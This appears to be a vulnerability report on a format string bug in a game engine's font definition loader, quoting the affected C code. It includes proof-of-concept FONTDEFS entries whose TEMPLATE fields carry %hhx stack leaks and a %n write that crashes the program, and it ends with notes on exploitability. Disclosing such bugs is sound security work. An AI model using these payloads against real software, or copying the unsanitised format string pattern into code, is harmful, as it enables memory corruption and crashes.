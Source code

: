 ```
	{
		FGameTexture *texs[256] = {};
		if (lcount > 256 - start) lcount = 256 - start;
		for (i = 0; i < lcount; i++)
		{
			TArray<FTextureID> array;
			mysnprintf(buffer, countof(buffer), nametemplate, i + start);

			TexMan.ListTextures(buffer, array, true);
			[...]
		}
		[...]
	}
	[...]
}
[...]
```
The `TEMPLATE` argument from an entry in the `FONTDEFS` lump is passed directly to `mysnprintf()`. This means one can have an entry like this that tries to load a font based on stack variables:
```
EVILFONT
{
	TEMPLATE LOL%hhx
}

```
Or an entry that writes the number of characters written somewhere on the stack, causing a crash:
```
EVILFONT
{
        TEMPLATE ----AAAAAAAA%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%hhx%n
}

```
The fact that the output is limited does not matter; the percent symbols will get parsed no matter the maximum length.

`mysnprintf()` is a custom, public domain implementation of `snprintf()` that is designed for performance at the cost of flexibility. Exploiting it is much harder than libc's standard implementation. For example, using %n, you can only write 32-bit words and you cannot write specific stack elements using `%<num>$n`.

